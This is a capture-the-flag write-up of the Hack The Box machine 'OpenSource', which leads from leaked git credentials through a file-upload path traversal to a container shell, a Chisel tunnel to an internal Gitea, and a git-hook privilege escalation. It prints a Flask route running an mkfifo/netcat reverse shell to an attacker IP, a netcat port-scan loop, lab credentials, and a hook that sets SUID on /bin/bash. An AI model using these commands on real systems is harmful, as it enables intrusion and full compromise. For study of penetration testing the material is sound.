




# OpenSource

<p align="center"> 

</p>

## General information

<h3> Difficulty:  </h3>

<h3> Operating system: Linux</h3>

<h3> Exploited vulnerability: Abusing Gitea + Information Leakage,   
Abusing Cron Job + Git Hooks [Privilege Escalation] </h3>

<h3> Resolution date: 29/11/2025 </h3>

<h3> Link: <a href="https://app.hackthebox.com/machines/471/information" target="_blank">OpenSource</a></h3>

### **Leer el documento en Español** <a href="opensource.md">OpenSource</a>

## Recognition

HTB provides us with the target machine's IP address: 10.129.227.140.

I'm going to set the target VM's IP address in the `/etc/hosts` file; I'll call it `opensource`.

### Ping

Depending on the result, we can deduce whether it is a Linux or Windows machine, for example:

```
ping -c 1 10.129.227.140
```

**Its TTL is 64. Therefore, it's Linux.**

### Open port scan

#### TCP port scan

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.227.140
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 22        | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 |
| 80        | http    | Werkzeug httpd 2.1.2            |

</div>

## Exploration

### Fuzzing web

```
http://10.129.227.140/
```

<p align="center"> 


</p>

A quick search reveals that Upcloud is essentially a platform on the internet where you can create and use virtual servers. For example, you can create VPS servers for websites, apps, databases, or to host your own website.

```
gobuster dir -u http://10.129.227.140/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

This URL downloads a .zip file called **source.zip**.

We create a folder where we will compress the .zip file.

```
unzip source.zip
```

<p align="center"> 

</p>

Since it contains a hidden file called .git, that means we can use git commands, therefore:

```
git branch
```

<p align="center"> 

</p>

This command is used to view the available branches and which branch we are currently on.

```
git log
```

<p align="center"> 

</p>

Here we see the **commits** that have been made to the **public** branch

```
git log dev
```

<p align="center"> 

</p>

While investigating a commit in the **dev** branch, I found some credentials.

```
git show a76f8f75f7a4a12b706b0cf9c983796fa1985820
```

<p align="center"> 

</p>

**user**: dev01 <br>
**pass**: Soulless_Developer#2022

## Exploitation

### Script views.py

Investigating the extracted folder, the **views.py** file is key; the goal now is to understand what this script does and how to use it to our advantage in a pentesting mindset.

<p align="center"> 

</p>

In simple terms, this script uploads a file and then makes it publicly accessible.

The `upload_file()` function receives a file from a form and saves it to the following folder:

```
public/uploads/
```

The **send_report()** function allows you to access any file in that folder using the path:

```
/uploads/<nombre_del_archivo>
```

The `os.path.join()` parameter is responsible for constructing the full file path by combining the base folder and the uploaded filename, ensuring it is saved in the correct location regardless of the operating system.

Therefore, the question we should ask is, **What's wrong with this script?**

The main problem is that the script doesn't validate the content of the uploaded files:

Although `get_file_name()` attempts to prevent attacks like `path traversal`, there is no control over the file type or its content.

<p align="center"> 

</p>

This means that an attacker could upload a dangerous file (as in my case) with the goal of obtaining a reverse shell.

<p align="center"> 

</p>

```
@app.route('/shell')
def cmd():
    return os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.144 4443 >/tmp/f")
```

Añadimos esto al script **reviews.py** al final. Esto los que nos da es la shell interactiva que queremos, obtenemos el comando entre parentesis de **os.system** en esta <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet " target="_blank">pag</a>

<p align="center"> 

</p>

The idea is to upload this edited **reviews.py** file to the victim machine's website and overwrite the existing **reviews.py** file with our edited version.

Before uploading it, we need to intercept it using Burp Suite.

<p align="center"> 


</p>

In **filename** we will only see "views.py", we change it to "/app/app/views.py" and then we click **Forward** and disable interception to make the change.

<p align="center"> 

</p>

Once the upload is successful, we prepare the following commands:

The listening port:

```
nc -lvnp 4443 
```

The command to call the shell is:

```
curl http://10.129.227.140/shell
```

<p align="center"> 

</p>

**Important information** We have accessed the container, not the target machine.

```
ip a
```

<p align="center"> 

</p>

The container's IP address is 172.17.0.2, and our victim machine's IP address is 10.129.227.140. However, there's a way to refer to the victim machine from within the container. This happens because Docker creates an internal virtual network where the host acts as a router. Its docker0 interface has the IP address 172.17.0.1, which is why, from any container, that address always points to the host.

### TTY

```
python -c "import pty;pty.spawn('/bin/sh')"
control z
stty raw -echo; fg 
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

### Ping

Once a more stable connection is established, we will use the following command to check if we have a connection to the victim machine.

``` 
ping -c 1 172.17.0.1
```

<p align="center"> 

</p>

The packet is transmitted, therefore, if we have a connection.

### Handmade Nmap

We're going to manually create an nmap to find out which ports are open on our victim machine.

```
for port in $(seq 1 10000); do nc 172.17.0.1 $port -zv; done
```

<p align="center"> 

</p>

This command mimics nmap by performing a port scan using netcat. It's used to find out which ports are open on 172.17.0.1.

In our first nmap scan, we only scanned open ports, not filtered ports... therefore, if we try to perform this scan again...

```
sudo nmap -p- -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.227.140
```

<p align="center"> 

</p>

We found port 3000, but it's open from the victim machine.

If we do the following, we can see the contents of port 3000.

```
curl http://10.129.227.140/shell
```

<p align="center"> 

</p>

**What is Gitea?**

Gitea is a website for storing and managing projects with Git, similar to GitHub or GitLab, but smaller, very lightweight, and anyone can install it on their own server.

### Chisel

Therefore, we will use our Chisel tool to bring these ports to our attacking machine. https://github.com/jpillora/chisel/releases/tag/v1.11.3

<p align="center"> 

</p>

We changed its name and unzipped it.

```
mv chisel_1.11.3_linux_amd64.gz chisel.gz
gunzip chisel.gz
chmod +x chisel
```

We're also going to reduce its size; the current size is

```
du -hc chisel
```

<p align="center"> 

</p>

```
upx chisel
du -hc chisel
```

<p align="center"> 

</p>

Then we send this file to our victim machine using the following command and download it:

```
python3 -m http.server
```

On the **attacking machine** we prepared the chisel server

```
./chisel server --reverse -p 1234
```

<p align="center"> 

</p>

In the container we prepare the chisel customer

```
./chisel client 10.10.14.144:1234 R:3000:172.17.0.1:3000
```

<p align="center"> 

</p>

On our attacking machine we will observe that it has connected

<p align="center"> 

</p>

On the attacking machine we obtain port 3000 of the victim machine.

```
http://localhost:3000/
```

<p align="center"> 

</p>

Now, using the credentials we obtained earlier, we log in, then access the following URL to obtain **id_rsa**

```
http://localhost:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```

<p align="center"> 

</p>

On our attacking machine, we created a file named **id_rsa** and copied the **id_rsa** we obtained from Gitea. We then granted it the following permissions.

```
sudo chmod +600 id_rsa
ssh -i id_rsa dev01@10.129.227.140
```

<p align="center"> 

</p>

We obtain the user flag

```
cat user.txt
```

<p align="center"> 

</p>

## Escalation of Privileges

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

**I can't find anything**

While investigating, I discovered a tool that is frequently used in privilege escalation called **pspy**, which is basically used to monitor processes and commands on Linux systems without needing root privileges.

On the download page <a href="https://github.com/DominicBreuker/pspy?tab=readme-ov-file" target="_blank">pspy</a> 4 versions appear

<p align="center"> 

</p>

Performing the command

```
uname -a
```

**Linux opensource 4.15.0-176-generic #185-Ubuntu SMP Tue Mar 29 17:40:04 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux**

• x86_64 → 64 bits	
• i386/i686 → 32 bits

Therefore, we will use the 64-bit big command.

We will use this command, which lists executed processes and commands. If UID=0, it means it is running as root.

```
./pspy64 -pf -i 1000
```

<p align="center"> 

</p>

<a href="https://gtfobins.github.io" target="_blank">gtfobins</a> We searched for **git** in the browser, and it turns out that a vulnerability can be exploited that basically consists of uploading a commit that doesn't verify its content. Therefore, in that commit, I can execute a command that elevates the user's privileges: **chmod u+s**. And since it's also executed by root, it's just a matter of time before I achieve that privilege elevation.

<p align="center"> 

</p>

```
echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
```

This is what we extract from gtfobins, but we need to make a modification.

```
echo 'chmod u+s /bin/bash' > "/home/dev01/.git/hooks/pre-commit"
chmod +x /home/dev01/.git/hooks/pre-commit
ls -l /bin/bash
```

<p align="center"> 

</p>

We wait a few seconds for the change to take effect; in theory, this should change the permissions and give us root access.

```
ls -l /bin/bash
```

<p align="center"> 

</p>

```
bash -p
```

<p align="center"> 

</p>

We obtain the root flag

<p align="center"> 

</p>

## Conclusion

During the analysis of the Hack The Box Open Source machine, I encountered an exploitation flow different from the usual one, which allowed me to strengthen my research skills and understanding of internal processes.

The starting point was the web application exposed by the machine. Investigating it thoroughly, I discovered the possibility of downloading a file related to Docker. From this resource, such as `.git` directories, I obtained relevant project information, including credentials belonging to the user **dev01**.

During the review of the source code, I identified insecure behavior in the `views.py` script, responsible for managing file uploads. This component did not adequately verify the content sent to the platform, revealing a clear attack surface: the possibility of uploading a manipulated file to execute actions not intended by the system.

Once inside the container, I observed that it was part of the victim machine's internal network. Taking advantage of this, I mapped the accessible services and discovered that port **3000** was only available from the internal network, which led to a platform called **gitea**. I used a tunnel created with _Chisel_ to forward this port to my attacker machine. By accessing the internal service and using the previously gathered credentials, I gained access to additional information, including the private key `id_rsa` of a system user.

Since port **22** was open externally, I used that key to access the main system with that user.

To further escalate privileges, I used the **pspy** tool, which allows observation of processes executed automatically on the system. This phase was key: thanks to pspy, I identified that **root** was periodically executing `/usr/local/bin/git-sync`. Investigating the system's behavior, I verified that the commits used in this flow lacked signature verification, which can lead to scenarios where unvalidated content is automatically synchronized.

That discovery allowed me to understand how a poorly configured, automated synchronization flow can become a critical security point if sources and content aren't verified, and mechanisms like GPG signatures, integrity controls, or isolated deployment systems aren't implemented.

Ultimately, it reinforced the analytical mindset necessary in the field of penetration testing: observing, correlating, questioning how and why things are executed, and detecting where poor design can become a vulnerability.